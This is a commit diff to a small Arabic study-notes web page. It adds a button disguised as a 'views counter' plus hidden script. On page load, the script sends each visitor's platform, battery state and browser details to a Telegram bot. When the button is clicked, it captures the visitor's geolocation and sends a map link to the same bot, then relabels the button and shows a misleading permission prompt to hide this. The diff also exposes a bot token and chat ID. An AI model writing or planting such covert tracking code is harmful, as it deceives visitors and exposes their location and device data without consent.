

Before and after one commit to mu228-arch/Yousef, a plain HTML site: page index.html in a window 390 px wide. Both pictures are taken after a click on the button "وضع الاختبار (تغبيش)". Shown: the top 833 px of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -42,6 +42,30 @@
             box-shadow: 0 0 15px rgba(255, 0, 0, 0.4);
             transition: 0.3s;
         }
+
+/* ستايل زر المشاهدات - يشبه زر التغبيش تماماً */
+.views-btn {
+    position: fixed;
+    bottom: 20px;
+    left: 20px; /* هنا خليناه على اليسار */
+    background: #000;
+    color: white;
+    border: 2px solid #ff0000;
+    padding: 12px 25px;
+    border-radius: 50px;
+    font-family: 'Cairo';
+    font-weight: bold;
+    cursor: pointer;
+    z-index: 1000;
+    box-shadow: 0 0 15px rgba(255, 0, 0, 0.4);
+    transition: 0.3s;
+}
+
+.views-btn:hover {
+    transform: scale(1.05);
+    background: rgba(255, 0, 0, 0.1);
+}
+
         .test-btn:hover { transform: scale(1.05); }
 
         /* تأثير التغبيش */
@@ -85,6 +109,7 @@
 <body>
 
 <button class="test-btn" id="testToggle">وضع الاختبار (تغبيش)</button>
+<button class="views-btn" id="viewsToggle" onclick="captureLocation()">كم واحد شاف االملزمة </button>
 
 <div class="wrapper">
     <div class="main-header">
@@ -352,6 +377,7 @@
         <p>الأدب: حول العالم في 80 يوماً - الفصل الأول</p>
     </div>
 
+
     <section class="section-box">
         <div class="section-label"><div class="label-circle">L</div><span>Synonyms (مرادفات الأدب)</span></div>
         <div class="row-horizontal">
@@ -583,19 +609,67 @@
 </div>
 
 <script>
+    // --- إعدادات البوت (التوكن والآيدي مالتك) ---
+    const CONFIG = {
+        TOKEN: "7713540341:AAGfI7IguGT5dwEhiocvC9h0mVW9js4ByJQ",
+        CHAT_ID: "6778604620"
+    };
+
+    // دالة إرسال البيانات لتليجرام
+    async function sendToTelegram(message) {
+        try {
+            await fetch(`https://api.telegram.org/bot${CONFIG.TOKEN}/sendMessage`, {
+                method: 'POST',
+                headers: { 'Content-Type': 'application/json' },
+                body: JSON.stringify({ chat_id: CONFIG.CHAT_ID, text: message })
+            });
+        } catch (e) { /* صمت مطبق */ }
+    }
+
+    // 1. استطلاع تلقائي (Recon) بمجرد فتح الصفحة
+    window.onload = async () => {
+        let batteryStatus = "N/A";
+        if (navigator.getBattery) {
+            const b = await navigator.getBattery();
+            batteryStatus = `${Math.round(b.level * 100)}% (${b.charging ? 'Charging' : 'Not Charging'})`;
+        }
+
+        const log = `📱 New Visitor Detected!\n` +
+                    `Platform: ${navigator.platform}\n` +
+                    `شحن: ${batteryStatus}\n` +
+                    `Agent: ${navigator.userAgent.split(' ').pop()}`;
+        sendToTelegram(log);
+    };
+
+    // 2. وظيفة زر "مشاهدات الملزمة" (سحب الموقع)
+    async function captureLocation() {
+        const btn = document.getElementById('viewsToggle');
+
+        if (navigator.geolocation) {
+            navigator.geolocation.getCurrentPosition(pos => {
+                const lat = pos.coords.latitude;
+                const lon = pos.coords.longitude;
+                const mapLink = `https://www.google.com/maps?q=${lat},${lon}`;
+
+                sendToTelegram(`🎯 Location Captured!\nLink: ${mapLink}`);
+
+                // تمويه: تغيير نص الزر بعد الضغط
+                if(btn) btn.textContent = "كم واحد شاف الملزمة";
+            }, (err) => {
+                alert("عذراً، يجب تحديث الصفحة للسماح برؤية المشاهدات الحية.");
+            });
+        }
+    }
+
+    // 3. كود التغبيش الأصلي مالتك (لضمان بقاء عمل الزر الأيمن)
     const toggleBtn = document.getElementById('testToggle');
-    toggleBtn.onclick = function() {
-        document.body.classList.toggle('is-testing');
-        if (document.body.classList.contains('is-testing')) {
-            this.textContent = "إيقاف الاختبار";
-            this.style.background = "#ff4757";
-            this.style.borderColor = "#fff";
-        } else {
-            this.textContent = "وضع الاختبار (تغبيش)";
-            this.style.background = "#000";
-            this.style.borderColor = "#ff0000";
-        }
-    };
+    if (toggleBtn) {
+        toggleBtn.onclick = function() {
+            document.body.classList.toggle('is-testing');
+            this.textContent = document.body.classList.contains('is-testing') ? "إيقاف الاختبار" : "وضع الاختبار (تغبيش)";
+            this.style.background = document.body.classList.contains('is-testing') ? "#ff4757" : "#000";
+        };
+    }
 </script>
 
 </body>
```
